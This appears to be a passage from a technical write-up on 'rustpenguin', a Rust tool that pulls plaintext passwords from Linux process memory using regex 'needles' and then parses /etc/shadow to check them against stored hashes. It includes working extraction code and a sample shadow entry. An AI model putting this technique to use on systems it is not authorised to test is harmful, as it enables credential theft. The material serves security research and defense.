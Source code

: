 *`extract_strings` function that returns a vector of strings (readable ASCII data from the memory dump).*

Now with a set of readable data from the process’s memory, the search for plaintext credentials can begin. Potential passwords are found using “needles” which are regex patterns identified through research as often appearing near plaintext passwords in process memory. For example, the needles for the GNOME Keyring process are as follows: `^.+libgck\-1\.so\.0$, libgcrypt\.so\..+$, linux-vdso\.so\.1$`. rustpenguin searches the dumped process data for matches to these needles and extracts the instances found, along with the 10 lines preceding and following each match. This approach aims to capture plaintext credentials that may appear near the identified patterns.

```rust
for needle in needles.iter() {
    for (index, s) in strings_dump.iter().enumerate() {
    // capturing n (pad) before and after around the needle
        if needle.is_match(s) {
            // index is where the match to the needle regex was found
            // if index is greater than the pad, then subtract the pad
            // otherwise, the start index is 0
            let start = if index >= pad { index - pad } else { 0 };
            // if index + pad + 1 is less than the length of the vector, then the end index is index + pad + 1
            // otherwise, the end index is the length of the vector
            let end = if index + pad + 1 < strings_dump.len() { index + pad + 1 } else { strings_dump.len() };
            // add all to potential password vector and return
            potential_passwords.extend_from_slice(&strings_dump[start..index]); // before
            potential_passwords.push(strings_dump[index].clone()); // needle match itself
            potential_passwords.extend_from_slice(&strings_dump[index + 1..end]); // after
        }
    }
}
```
*A snippet of `extract_potential_passwords`, which builds a String vector of potential passwords from the process dump.*

Once the potential passwords are collected, they need to be verified against hashes to confirm any of them as actual credentials. Thus, rustpenguin parses the `/etc/shadow` file, a file containing user password hashes, to create a list of hashes to test the potential passwords against. 

An entry in /etc/shadow is constructed as so: 

```
username:password:lastchg:min:max:warn:inactive:expire:reserved
hypernova:$6$dGK.6R8NvACZhIpt$STDIJJ9eiYblVlDH4RF0H5YZ82FMPH1GQnL.1/ZorNwAYP8hieUwoY8om2ozD8kCZ4DJHp5ErJOn3w1OnLHLE.:19947:0:99999:7:::
```

For our purposes, we will focus on the username and password, building a vector of `User`s with the username and components of its password hash. The password hash can be split into the following components:

```
$hashing_algo$salt$hash
$6$dGK.6R8NvACZhIpt$STDIJJ9eiYblVlDH4RF0H5YZ82FMPH1GQnL.1/ZorNwAYP8hieUwoY8om2ozD8kCZ4DJHp5ErJOn3w1OnLHLE.
```
